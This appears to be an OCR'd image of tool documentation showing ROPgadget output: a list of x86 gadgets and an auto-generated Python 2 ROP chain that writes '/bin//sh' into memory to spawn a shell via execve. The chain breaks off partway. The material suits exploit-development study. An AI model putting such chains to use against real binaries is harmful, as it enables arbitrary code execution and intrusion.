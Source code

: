 ```bash
0x080e16d0 : aam 0xba ; add byte ptr [eax], al ; lodsb al, byte ptr [esi] ; jecxz 0x80e16d8 ; call dword ptr [esi]
0x080a1900 : aam 0xba ; retf 0xd48
...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

  [+] Gadget found: 0x8051035 mov dword ptr [esi], edi ; pop ebx ; pop esi ; pop edi ; ret
  [+] Gadget found: 0x8048433 pop esi ; ret
  [+] Gadget found: 0x8048480 pop edi ; ret
  [-] Can't find the 'xor edi, edi' gadget. Try with another 'mov [r], r'

  [+] Gadget found: 0x80549db mov dword ptr [edx], eax ; ret
  [+] Gadget found: 0x806f02a pop edx ; ret
  [+] Gadget found: 0x80b81c6 pop eax ; ret
  [+] Gadget found: 0x8049303 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

  [+] Gadget found: 0x8049303 xor eax, eax ; ret
  [+] Gadget found: 0x807a86f inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

  [+] Gadget found: 0x80481c9 pop ebx ; ret
  [+] Gadget found: 0x80de955 pop ecx ; ret
  [+] Gadget found: 0x806f02a pop edx ; ret

- Step 4 -- Syscall gadget

  [+] Gadget found: 0x806cc25 int 0x80

- Step 5 -- Build the ROP chain

  #!/usr/bin/env python2
  # execve generated by ROPgadget

  from struct import pack

  # Padding goes here
  p = ''

  p += pack('<I', 0x0806f02a) # pop edx ; ret
  p += pack('<I', 0x080ea060) # @ .data
  p += pack('<I', 0x080b81c6) # pop eax ; ret
  p += '/bin'
  p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0806f02a) # pop edx ; ret
  p += pack('<I', 0x080ea064) # @ .data + 4
  p += pack('<I', 0x080b81c6) # pop eax ; ret
  p += '//sh'
  p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0806f02a) # pop edx ; ret
  p += pack('<I', 0x080ea068) # @ .data + 8
  p += pack('<I', 0x08049303) # xor eax, eax ; ret
  p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x080481c9) # pop ebx ; ret
  p += pack('<I', 0x080ea060) # @ .data
  p += pack('<I', 0x080de955) # pop ecx ; ret
  p += pack('<I', 0x080ea068) # @ .data + 8
  p += pack('<I', 0x0806f02a) # pop edx ; ret
```